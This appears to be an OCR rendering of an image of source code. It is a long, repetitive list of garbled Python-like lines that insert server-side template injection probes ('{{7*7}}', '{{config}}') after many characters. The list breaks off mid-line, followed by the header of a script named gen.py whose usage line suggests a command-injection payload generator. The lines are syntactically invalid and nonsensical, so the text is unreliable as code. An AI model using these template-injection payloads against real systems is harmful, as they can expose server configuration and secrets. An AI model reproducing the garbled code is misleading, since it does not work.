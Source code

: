   ```
        - 'payload' De'vam = 'payload' De'vam.replace('%', '%|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('^', '^|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('*', '*|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('_', '_|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('-', '-|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('+', '+|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('=', '=|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('~', '~|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('`', '`|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('|', '|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace(' ', ' |{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\n', '\n|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\r', '\r|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\t', '\t|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\v', '\v|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\f', '\f|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\b', '\b|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\a', '\a|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\e', '\e|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\0', '\0|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\1', '\1|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\2', '\2|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\3', '\3|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\4', '\4|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\5', '\5|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\6', '\6|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\7', '\7|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\8', '\8|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\9', '\9|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\.', '\.|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\,', '\,|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\;', '\;|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\:', '\:|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\!', '\!|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\?', '\?|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\(', '\(|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\)', '\)|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\[', '\[|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\]', '\]|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\{', '\{|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\}', '\}|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\<', '\<|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\>', '\>|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\/', '\/|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\\', '\\|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\&', '\&|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\$', '\$|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\#', '\#|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\@', '\@|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\%', '\%|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\^', '\^|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\*', '\*|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\_', '\_|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\-', '\-|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('\+', '\+|{{7*7}}')
        - 'payload' De'vam = 'payload' De'v
```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv
  ```